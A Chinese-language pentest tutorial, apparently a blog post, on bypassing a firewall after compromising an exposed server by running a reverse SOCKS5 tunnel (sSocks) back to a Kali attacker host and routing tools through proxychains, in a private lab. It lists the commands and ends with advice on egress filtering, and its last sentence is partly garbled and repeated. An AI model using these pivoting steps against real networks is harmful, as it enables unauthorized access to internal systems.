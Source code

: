 ```yaml
---
author: 星火燎原@vxhly
title: Socks 代理反弹突破内网
category: [networking]
tag: [Network, Liunx, Pentest]
date: 2016-11-24 14:46:22
---
```


::: tip 前言

对于渗透测试者来说, 如何绕过防火墙的阻挡在内网展开渗透测试成为需解决的问题, 本文介绍了在夺取映射到外网的内网服务器权限后, 如何利用 Socks 代理反弹获得内网访问权限。

:::

<!-- more -->

## 环境介绍

| 机子     | 系统                    | IP                                             |
| -------- | ----------------------- | ---------------------------------------------- |
| 攻击机   | `kali Liunx`            | 192.168.199.130 (外网)                         |
| 目标主机 | `ubuntu-server`         | 192.168.199.131 (外网)；192.168.235.143 (内网) |
| 内网主机 | `Metasploitable2-Liunx` | 192.168.235.142 (内网)                         |

## 工具介绍

### sSocks

sSocks 是一个 socks 代理工具套装, 可用来开启 socks 代理服务, 支持 socks5 验证, 支持 IPV6 和 UDP, 并提供反向 socks 代理服务, 即将远程计算机作为 socks 代理服务端, 反弹回本地, 极大方便内网的渗透测试

### 下载

[sSocks 更新地址](http://sourceforge.net/projects/ssocks/)<br> 这里下载的版本为 `0.0.14`

```bash
wget https://nchc.dl.sourceforge.net/project/ssocks/ssocks-0.0.14.tar.gz
```

### 解压并编译

```bash
tar -xzvf ssocks-0.0.14.tar.gz
cd ssocks-0.0.14
./configure && make
```

::: warning 注意

编译的时候要先确定机子上有 gcc 环境, 没有的请自行安装

:::

### 功能

编译完成, 进入 sr c 目录, 会发现有 `nsocks` 、 `ssocksd` 、 `ssocks` 、 `rcsocks` , 其功能说明介绍如下:

- **nsocks** 类似通过 Socks5 代理后的 netcat, 可用来测试 socks server
- **ssocksd** 用来开启 Socks5 代理服务
- **ssocks** 本地启用 Socks5 服务, 并反弹到另一 IP 地址
- **rcsocks** 接收反弹过来的 Socks5 服务, 并转向另一端口

## 攻击步骤

现假设已获得 `ubuntu-server` 权限, 也将 ssocks 这软件上传至该服务器（包含解压和编译）

### 执行本地监听

机子: `kali Liunx` ；IP: `192.168.199.130`

```bash
cd ssocks-0.0.14/src
./rcsocks -l 1088 -p 1080 -vv
```

等待远程 Socks5 服务器访问本地 1080 端口, 创建端口 1080 与本地端口 1088 的连接通道<br>

![Socks 代理](/assets/socks-proxy-1.png)

### 开启 Socks5 代理服务, 反弹

机子: `ubuntu-server` ；IP: `192.168.199.131`

```bash
cd ssocks-0.0.14/src
./rssocks -vv -s 192.168.199.130:1080
```

启用 Socks5 服务, 反弹到 `192.168.199.130` （即 `kali Liunx` ） 的端口 1080 上<br>

![Socks 代理](/assets/socks-proxy-2.png)

此时在渗透测试端 `192.168.199.130` （即 `kali Liunx` ） 可看到通道连接成功<br>

![Socks 代理](/assets/socks-proxy-3.png)

### 利用 proxychains 进行 Socks5 代理

机子: `kali Liunx` ；IP: `192.168.199.130`

#### proxychains 介绍

通过前面的步骤, Socks5 代理已创建完成了。由于在渗透测试过程中, 需要使用不同的工具程序, 而在各程序中分别配置 Socks5 代理信息较为繁琐, 而部分程序并不支持配置 Socks5 代理。为了简化这些操作, 我们可以采用 `proxychains` 。

proxychains 是一个代理客户端软件, 可以支持几乎所有程序的代理, 如 `ssh` , `telnet` , `ftp` 等。利用 `proxychains` , 程序能在代理的环境下被加载运行, 而本身不需要具备代理功能。

#### proxychains 下载

需要 git 环境, 在 `kali Liunx` 使用 `proxychains`

```bash
git clone https://github.com/haad/proxychains.git
```

#### 编译和安装

```bash
cd proxychains
./configure
make && make install
```

#### 修改配置文件

使用前需要对 proxychains 进行简单配置, 打开配置文件 `/etc/proxychains.conf` 在 `[ProxyList]` 处添加

```bash
socks5 127.0.0.1 1088
```

![Socks 代理](/assets/socks-proxy-4.png)

配置成功后若要启动程序, 仅需要在启动程序命令前加上 `proxychains`

### 启用浏览器 firefox

机子: `kali Liunx` ；IP: `192.168.199.130`

```bash
proxychains firefox
```

![Socks 代理](/assets/socks-proxy-5.png)

### 访问内网机子

机子: `kali Liunx` ；IP: `192.168.235.143`

::: warning 注意

现在已经可以直接访问内网主机了, IP: `192.168.235.142`

:::

![Socks 代理](/assets/socks-proxy-6.png)

随便点个链接, 然后再看一眼 `ubuntu-server` 中的日志, 成功访问到内网中的页面<br>

![Socks 代理](/assets/socks-proxy-7.png)

## 后记

由于系统管理员的疏忽或者业务需求所致, 防火墙一般仅对由外向内发起的数据连接进行严格判断、过滤、甚至阻断而忽略由内往外的连接。因此, 在此种情况下, 通过攻陷映射到公网的端口服务, 利用反弹便可获取内网访问权限, 给内网安全带来极大的威胁。在信息安全建设与运维过程中, 不仅要加强映射到公网的服务安全, 也要重视由内到外连接的安全威胁 � 维过程中, 不仅要加强映射到公网的服务安全, 也要重视由内到外连接的安全威胁
